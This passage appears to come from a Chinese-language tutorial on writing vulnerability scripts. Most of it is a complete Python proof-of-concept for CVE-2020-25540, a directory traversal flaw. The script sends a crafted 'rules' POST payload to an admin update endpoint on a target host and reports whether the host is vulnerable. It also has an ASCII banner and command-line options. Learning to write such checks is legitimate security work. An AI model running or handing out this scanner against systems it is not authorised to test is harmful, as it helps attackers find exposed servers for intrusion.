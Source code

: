 #### 2.4.2.1. 脚本美化

这里关于报错等，在前面都提到过了，所以这里就不在说了，直接上美化后的脚本。

```python
import argparse
import requests
import sys


def poc(url, port):
    payload = "/admin.html?s=admin/api.Update/node"
    url1 = f"{url}:{port}{payload}"
    headers = {"User-Agent": "Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0",
               "Accept": "text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8",
               "Accept-Language": "zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3",
               "Accept-Encoding": "gzip, deflate, br",
               "DNT": "1",
               "Connection": "close",
               "Content-Type": "application/x-www-form-urlencoded"}
    data = {"rules": "[\"./\"]\r\n\r\n"}

    try:
        r = requests.post(url1, headers=headers, data=data, verify=False, timeout=5, allow_redirects=False)
        ##这里的判断条件我添加了多个，如果在编写过程中，拿不准的话，可以多添加几个判断条件
        if "code" in r.text and "info" in r.text:
            print(f"[+]{url}存在CVE-2020-25540目录遍历漏洞")
        else:
            print(f"[-]{url}不存在CVE-2020-25540目录遍历漏洞")
    except Exception as e:
        print(f"[-]{url}存在异常，请检查！")
        sys.exit(1)


def main():
    banner = """
     .::   .::         .::.::::::::                                  
 .::   .:: .::       .:: .::             .:::.:     .::      .:::.: 
.::         .::     .::  .::            .:    .:  .::  .::  .:    .:
.::          .::   .::   .::::::  .:::::    .:: .::     .::     .:: 
.::           .:: .::    .::              .::   .::      .::  .::   
 .::   .::     .::::     .::            .::      .::    .:: .::     
   .::::        .::      .::::::::      .:::::::   .:::     .:::::::
                                                                    
                                                                    
    .::            .:::.: .:: .::: .:: .:::       .::       .::     
  .::  .::        .:    .:.::      .::          . .::     .::  .::  
.::     .:: .:::::    .:: .:::     .:::        .: .::   .::     .:: 
.::      .::        .::       .::      .::   .::  .::   .::      .::
 .::    .::       .::           .::      .::.:::: .: .:: .::    .:: 
   .:::           .:::::::.::: .:: .::: .::       .::      .:::     
    """
    print(banner)
    print("Vulnerability version: x1.6.0-x2.2.3")
    parser = argparse.ArgumentParser()
    parser.add_argument("-u", dest="url", required=True, type=str, default=None, help="Vulnerability IP")
    parser.add_argument("-p", dest="port", required=False, type=int, default=8080,
                        help="The default vulnerability port is 80")
    args = parser.parse_args()
    poc(args.url, args.port)

```